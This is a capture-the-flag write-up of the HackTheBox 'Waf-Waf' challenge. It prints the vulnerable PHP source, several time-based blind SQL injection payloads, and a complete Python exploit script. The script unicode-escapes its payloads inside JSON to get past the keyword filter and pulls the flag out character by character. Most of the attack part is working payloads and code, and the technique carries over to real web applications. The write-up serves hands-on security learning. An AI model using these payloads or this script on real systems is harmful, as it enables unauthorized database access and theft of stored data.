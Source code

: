 #  Waf-Waf : HackTheBox Challenge
![](./screenshot/ss1.jpg)



- Start the machine and open the machine url `http://188.166.173.208:30915/` this will revealed us the application’s source code:

![](./screenshot/ss2.jpg)

####Source Code : 
```bash
 <?php error_reporting(0);
require 'config.php';

class db extends Connection {
    public function waf($s) {
        if (preg_match_all('/'. implode('|', array(
            '[' . preg_quote("(*<=>|'&-@") . ']',
            'select', 'and', 'or', 'if', 'by', 'from', 
            'where', 'as', 'is', 'in', 'not', 'having'
        )) . '/i', $s, $matches)) die(var_dump($matches[0]));
        return json_decode($s);
    }

    public function query($sql) {
        $args = func_get_args();
        unset($args[0]);
        return parent::query(vsprintf($sql, $args));
    }
}

$db = new db();

if ($_SERVER['REQUEST_METHOD'] == 'POST') {
    $obj = $db->waf(file_get_contents('php://input'));
    $db->query("SELECT note FROM notes WHERE assignee = '%s'", $obj->user);
} else {
    die(highlight_file(__FILE__, 1));
}
?> 
```


- I Got the database name after a while with below payload :

`"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(table_schema, 1, 1) FROM information_schema.tables WHERE table_schema LIKE '%db%' AND table_name LIKE '%flag%' LIMIT 1 ) = 'd' ,SLEEP(5),0))))x)-- wxyg"`

- Just after that, I have Got the table name with below payload :

`"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(table_name, {i}, 1) FROM information_schema.tables WHERE table_schema LIKE '{database}' AND table_name LIKE '%flag%' LIMIT 1 ) = '{char}' ,SLEEP(5),0))))x)-- wxyg"`

- Same like I have got coloumn name with using below payload :
  
`"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(column_name, {i}, 1) FROM information_schema.columns WHERE table_schema LIKE '{database}' AND table_name LIKE '%flag%' LIMIT 1 ) = '{char}' ,SLEEP(5),0))))x)-- wxyg"`

- This is the python script for exploiting it.

```bash
import requests
from time import time
from sys import argv
import string

# we have already got the database, table and column names
database = "db_m8452"
table = "definitely_not_a_flag"
column = "flag"

try:
	url = f"http://{argv[1]}/"
except :
	print(f"Usage: {argv[0]} <ip:port>")
	exit(-1)

char_set = string.ascii_lowercase + '_' #+ string.digits  
flag_set = string.ascii_lowercase + '_' + string.digits + '}' #+ string.ascii_uppercase 

def uni_encode(payload):
	result = ""
	for i in range(len(payload)):
		result += '\\u%.4X' % ord(payload[i])
	return result	

def fetch_data(url, len_, name):
	global database
	print("[*]Getting info...")
	res = ""
	#print('{"user":"%s"}' % payload)
	for i in range(1, len_+1):
		for char in char_set:
			payload = f"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR(column_name, {i}, 1) FROM information_schema.columns WHERE table_schema LIKE '{database}' AND table_name LIKE '%flag%' LIMIT 1 ) = '{char}' ,SLEEP(5),0))))x)-- wxyg"
			#print (payload)
			#exit()
			encoded_payload = uni_encode(payload)
			json_data = '{"user":"%s"}' % encoded_payload
			
			#print(encoded_payload)
			#print(json_data)
			try:
				start = time()
				r = requests.post(url, data=json_data)
				end = time()
			except :
				pass

			if (end - start) > 5:
				res += char
				print(f"[*]{name}: {res}")
				#break
			
	return res

def get_flag(url):
	global database, table, column
	print("[*]Getting Flag...")
	flag = "HTB{"
	
	while '}' not in flag:
		pos = len(flag) + 1
		for char in flag_set:
			payload = f"d' AND (SELECT 1337 FROM (SELECT((IF((SELECT SUBSTR({column}, {pos}, 1) FROM {database}.{table} ) = '{char}', SLEEP(3), 0))))x)-- wxyg"
			#print (payload)
			#exit()
			encoded_payload = uni_encode(payload)
			json_data = '{"user":"%s"}' % encoded_payload
			
			#print(encoded_payload)
			#print(json_data)
			try:
				start = time()
				r = requests.post(url, data=json_data)
				end = time()
			except :
				pass

			if (end - start) > 3:
				flag += char
				print(f"[*]FLag: {flag}")
				break
	return flag


print(f"{get_flag(url)}")
```
- Here we got the flag... 
![](./screenshot/ss3.jpg)
